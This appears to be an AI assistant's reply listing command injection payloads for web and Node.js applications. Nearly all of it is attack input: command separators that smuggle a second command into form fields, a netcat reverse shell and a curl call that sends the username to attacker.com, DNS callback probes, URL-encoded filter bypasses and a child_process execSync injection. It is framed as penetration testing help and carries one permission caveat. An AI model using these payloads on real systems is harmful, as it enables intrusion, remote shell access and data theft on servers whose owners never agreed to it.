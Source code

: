 Here’s a **Command Injection Testing Cheat Sheet** tailored for **web applications (including those running JavaScript on the backend like Node.js)**. These payloads help identify unsanitized input that's being passed to system commands.

---

### 🔍 **Basic Command Injection Payloads**

Start with simple inputs to check if they're interpreted as commands:

```bash
; whoami
&& whoami
| whoami
`whoami`
$(whoami)
```

**Examples in parameters or fields:**
```
127.0.0.1; whoami
test && id
name=Kolbe|uname -a
```

---

### 💣 **Dangerous Payloads for Confirming Exploitability**

> **Only use with permission in a legal environment (e.g. your own pentest lab)**

```bash
; sleep 10
&& ping -c 4 attacker.com
| nc attacker.com 4444 -e /bin/bash
$(curl http://attacker.com/`whoami`)
```

---

### 🧪 **Blind Injection Indicators**

These help detect when you can’t see output but can infer injection via time or DNS:

```bash
; ping -c 3 127.0.0.1
; sleep 5
; curl http://attacker.com
; nslookup kolbe.attacker.com
```

---

### 🧼 **Bypass Filters and Encoding Tricks**

To evade basic filtering or blacklisting:

- Use encoded input:
  ```
  %26%26 whoami        # URL-encoded '&& whoami'
  %3B whoami           # URL-encoded '; whoami'
  ```
- Use shell-wrapped input:
  ```
  $(id)
  `id`
  ```

---

### 🧠 **Context-Specific Tricks (Node.js/JavaScript)**

If you suspect **Node.js** is using `child_process.exec()` or `execSync()`:

```javascript
; require('child_process').execSync('whoami')  // JS injection + RCE
```

Or test with payloads like:
```
a$(whoami)
a`whoami`
a|id
```

---

### 🛡️ **Things to Observe**

- Does the response change with your input?
- Is there a delay (try `sleep`)?
- Do you get unusual error messages or stack traces?
- Are there DNS or HTTP callbacks if you set them up?

---

Would you like me to generate a simple vulnerable Node.js app to practice these on?